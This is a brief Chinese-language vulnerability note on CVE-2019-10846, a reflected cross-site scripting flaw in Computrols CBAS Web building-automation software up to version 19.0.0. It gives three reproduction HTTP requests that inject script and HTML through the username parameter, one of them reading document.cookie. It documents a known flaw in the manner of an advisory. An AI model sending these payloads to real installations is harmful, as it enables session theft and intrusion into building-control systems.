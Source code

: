 ```yaml
---
title: （CVE-2019-10846）Computrols CBAS Web反射型xss
id: zhfly2851
---
```


# （CVE-2019-10846）Computrols CBAS Web反射型xss

## 一、漏洞简介

Computrols CBAS Web是美国Computrols公司的一套楼宇自动化系统

## 二、漏洞影响

Computrols CBAS Web<=19.0.0

## 三、复现过程

### 1、

```
POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1 `username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email` 
```

### 2、

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62` 
```

### 3、

```
GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1 
```